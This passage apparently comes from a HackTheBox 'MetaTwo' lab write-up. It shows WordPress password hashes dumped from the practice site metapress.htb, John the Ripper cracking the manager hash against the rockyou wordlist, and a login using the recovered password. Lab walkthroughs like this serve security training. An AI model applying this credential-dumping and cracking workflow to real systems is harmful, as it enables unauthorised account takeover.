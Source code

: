```sh
┃ Username ┃ Email                 ┃ Password Hash                      ┃
┡━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ admin    │ admin@metapress.htb   │ $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. │
│ manager  │ manager@metapress.htb │ $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 │
└──────────┴───────────────────────┴────────────────────────────────────┘
```

### john the ripper
`john` allowed me to crack one of these hashes.

*file: hashes.txt*
```txt
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

```sh
┌──(kali㉿kali)-[~/htb/metatwo]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)
```

This let me login to `metapress.htb/login`.

![manager](images/manager.png)
